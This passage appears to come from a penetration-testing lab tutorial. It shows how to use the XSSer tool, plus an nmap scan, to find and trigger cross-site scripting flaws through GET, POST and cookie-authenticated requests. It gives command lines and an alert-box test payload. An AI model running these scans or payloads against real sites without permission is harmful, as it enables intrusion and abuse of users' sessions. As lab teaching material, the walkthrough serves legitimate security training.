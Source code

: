 <br> <img src="result_xss2.png" width=100% height="auto"><br>

You can also try use various XSS payloads in auto mode:<b> xsser --url 'referer of the request' -p 'payload of the POST request with XSS value' --auto</b> or use custom payload<b> xsser --url 'referer of the request' -p 'payload of the POST request with XSS value' --Fp "<script>alert(1)</script>"</b> and open the final attack link to trigger the XSS vulnerability in the browser

### Goal: Get some payloads to perform XSS (GET). <br>
Use nmap to scan the network and identify the ports that are running the http and mysql services. The ports must be OPEN.<br>
1) In the page vulnerable to XSS select one option in the list and click submit vote to check the url.
2) Perform the scanning of payloads:<b> xsser --url “url with variable=XSS”</b>
<br> <img src="result_xss.png" width=100% height="auto"><br>

You can use your custom script:<b> xsser --url “url with variable=XSS” --Fp "<script>alert(1)</script>"</b> and open the final attack link to trigger the XSS vulnerability in the browser<br>
If u need a <b>XSS with auth</b> you can use:<b> xsser --url “url with variable=XSS” --cookie=”cookie” </b> <br>

#Author
<b>Xiao Li Savio Feng</b>
